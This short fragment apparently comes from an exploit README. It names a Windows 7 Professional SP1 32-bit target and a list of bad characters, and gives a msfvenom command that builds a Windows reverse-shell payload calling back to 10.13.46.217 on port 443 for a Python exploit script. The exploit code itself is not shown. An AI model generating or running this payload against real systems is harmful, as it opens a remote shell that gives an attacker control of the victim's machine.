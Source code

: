 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\x08\x2c\xad

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\x00\x08\x2c\xad" -v esp -f python
